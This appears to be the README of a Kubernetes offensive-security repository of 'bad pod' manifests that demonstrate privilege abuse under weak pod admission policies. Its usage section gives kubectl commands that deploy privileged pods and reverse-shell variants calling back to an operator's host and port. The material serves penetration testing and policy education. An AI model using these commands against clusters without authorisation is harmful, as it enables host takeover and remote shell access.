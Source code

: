 # badPods

A collection of manifests that create pods with different elevated privileges. Quickly demonstrate the impact of allowing security sensitive pod specifications. 

## Background
Occasionally pods need access to privileged resources on the host, so the Kubernetes pod spec allows for it. However, this level of access should be granted with extreme caution. Administrators have ways to prevent the creation of pods with these security sensitive pod specifications using [PodSecurityPolicy](https://kubernetes.io/docs/concepts/policy/pod-security-policy/), or third-party admission controllers like [OPA Gatekeeper](https://github.com/open-policy-agent/gatekeeper). 

However, even though the controls exist to define and enforce policy, the real-world security implication of allowing each specific attribute is not always understood, and quite often, pod creation is not as locked down as it should be.

## Purpose
What if you can create a pod with just `hostNetwork`, just `hostPID`, just `hostIPC`, just `hostPath`, or just `privileged`? What can you do in each case? This repository aims to help you answer those questions by providing some easy to use manifests and actionable steps to achieve those goals. 

## Prerequisites
In order to be successful in this attack path, you'll need the following: 

1. Access to a cluster 
1. Permission to create one of the following resource types in at least one namespace: 
   * CronJob, DeamonSet, Deployment, Job, Pod, ReplicaSet, ReplicationController, StatefulSet
1. Access to exec into pods or a network policy that allows a reverse shell from a pod to reach you. 
1. A pod security policy (or other pod admission controller's logic) that llows pods to be created with one or more security sensitive attributes, or no pod security policy / pod admission controller at all

## The badPods line-up

Notes | readme | pod | revshell
-- | -- | -- | --
Everything allowed | [readme](manifests/everything-allowed/) | [manifest](manifests/everything-allowed/everything-allowed.yaml) | [manifest](manifests/everything-allowed/everything-allowed-revshell.yaml)
Privileged and hostPid | [readme](manifests/priv-and-hostpid/) | [manifest](manifests/priv-and-hostpid/pod-priv-and-hostpid.yaml) | [manifest](manifests/priv-and-hostpid/pod-priv-and-hostpid-revshell.yaml)
Privileged only | [readme](manifests/priv/) | [manifest](manifests/priv/pod-priv.yaml) | [manifest](manifests/priv/pod-priv-revshell.yaml)
hostPath only | [readme](manifests/hostpath/) | [manifest](manifests/hostpath/hostpath-exec.yaml) | [manifest](manifests/hostpath/hostpath-revshell.yaml)  
hostPid only | [readme](manifests/hostpid/) | [manifest](manifests/hostpid/hostpid.yaml) | [manifest](manifests/hostpid/hostpid-revshell.yaml)  
hostNetwork only | [readme](manifests/hostnetwork/) | [manifest](manifests/hostnetwork/hostnetwork-exec.yaml) | [manifest](manifests/hostnetwork/hostnetwork-revshell.yaml)
hostIPC only | [readme](manifests/hostipc/) | [manifest](manifests/hostipc/hostipc-exec.yaml) | [manifest](manifests/hostipc/hostipc-revshell.yaml)
Nothing allowed | [readme](manifests/nothing-allowed/) | [manifest](manifests/nothing-allowed/nothing-allowed.yaml) | [manifest](manifests/nothing-allowed/nothing-allowed-revshell.yaml)

# Impact - What's the worst that can happen?
Check out blog post here

# Organization
```bash
├── manifests
│   ├── everything-allowed
│   │   ├── cronjob
│   │   │   ├── everything-allowed-exec-cronjob.yaml
│   │   │   └── everything-allowed-revshell-cronjob.yaml
│   │   ├── deamonset
│   │   │   ├── everything-allowed-exec-deamonset.yaml
│   │   │   └── everything-allowed-revshell-deamonset.yaml
│   │   ├── deployment
│   │   │   ├── everything-allowed-exec-deployment.yaml
│   │   │   └── everything-allowed-revshell-deployment.yaml
│   │   ├── job
│   │   │   ├── everything-allowed-exec-job.yaml
│   │   │   └── everything-allowed-revshell-job.yaml
│   │   ├── pod
│   │   │   ├── everything-allowed-exec-pod.yaml
│   │   │   └── everything-allowed-revshell-pod.yaml
│   │   ├── replicaset
│   │   │   ├── everything-allowed-exec-replicaset.yaml
│   │   │   └── everything-allowed-revshell-replicaset.yaml
│   │   ├── replicationcontroller
│   │   │   ├── everything-allowed-exec-replicationcontroller.yaml
│   │   │   └── everything-allowed-revshell-replicationcontroller.yaml
│   │   └── statefulset
│   │       ├── everything-allowed-exec-statefulset.yaml
│   │       └── everything-allowed-revshell-statefulset.yaml
│   ├── hostipc
│   │   ├── cronjob
│   │   │   ├── hostipc-exec-cronjob.yaml
│   │   │   └── hostipc-revshell-cronjob.yaml
│   │   ├── deamonset
│   │   │   ├── hostipc-exec-deamonset.yaml
│   │   │   └── hostipc-revshell-deamonset.yaml
...omitted for brevity...
```

## "There are Eight ways to create a Pod"
As [Eviatar Gerzi (@g3rzi)](https://twitter.com/g3rzi) points out in the post [Eight Ways to Create a Pod
](https://www.cyberark.com/resources/threat-research-blog/eight-ways-to-create-a-pod), there might be a situation where you are not authorized to create pods, but you can create another resource type that will create one or more pods. For each badPod type, there are manifests that correspond to all eight resource types. 

## Reverse shells
While common, it is not always the case that you can exec into pods that you can create. To help in those situations, a version of each manifest is included that will call back to your listener as soon as the pod is created. 

# Usage
Each resource in the `manifests` directory targets a specific attribute or a combination of attributes that expose the cluster to risk when allowed. Within each badPod type, there are manifests that will create the 8 different resource types that in turn create pods. Each subdirectory has it's own usage information which includes tailored post-exploitation ideas and steps.  

### Clone the repo
```bash
git clone https://github.com/BishopFox/badPods
cd badPods
```

### Create all eight badPods (if the admission controller allows it)
```bash
kubectl apply -f ./manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml
kubectl apply -f ./manifests/priv-and-hostpid/pod/priv-and-hostpid-exec-pod.yaml
kubectl apply -f ./manifests/priv/pod/priv-exec-pod.yaml
kubectl apply -f ./manifests/hostpath/pod/hostpath-exec-pod.yaml
kubectl apply -f ./manifests/hostpid/pod/hostpid-exec-pod.yaml
kubectl apply -f ./manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
kubectl apply -f ./manifests/hostipc/pod/hostipc-exec-pod.yaml
kubectl apply -f ./manifests/nothing-allowed/pod/nothing-allowed-exec-pod.yaml
```

### Reverse shell version of each pod
If you can create pods but not exec  into them, you can use the reverse shell version of each pod. To avoid having to edit each pod with your host and port, you can environment variables and the `envsubst` command. Remember to spin up all of your listeners first!

```bash
HOST="10.0.0.1" PORT="3111" envsubst < ./manifests/everything-allowed/pod/everything-allowed-revshell-pod.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3112" envsubst < ./manifests/priv-and-hostpid/pod/priv-and-hostpid-revshell-pod.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3113" envsubst < ./manifests/priv/pod/priv-revshell-pod.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3114" envsubst < ./manifests/hostpath/pod/hostpath-revshell-pod.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3115" envsubst < ./manifests/hostpid/pod/hostpid-revshell-pod.yaml  | kubectl apply -f -
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostnetwork/pod/hostnetwork-revshell-pod.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3117" envsubst < ./manifests/hostipc/pod/hostipc-revshellv-pod.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3118" envsubst < ./manifests/nothing-allowed/pod/nothing-allowed-revshell-pod.yaml | kubectl apply -f -
```

# Acknowledgements 
Thank you [Rory McCune](https://twitter.com/raesene), [Duffie Cooley](https://twitter.com/mauilion), [Brad Geesaman](https://twitter.com/bradgeesaman), [Tabitha Sable](https://twitter.com/tabbysable), [Ian Coldwater](https://twitter.com/IanColdwater), [Mark Manning](https://twitter.com/antitree), and [Eviatar Gerzi](https://twitter.com/g3rzi) for publicly sharing so much knowledge about Kubernetes offensive security. 
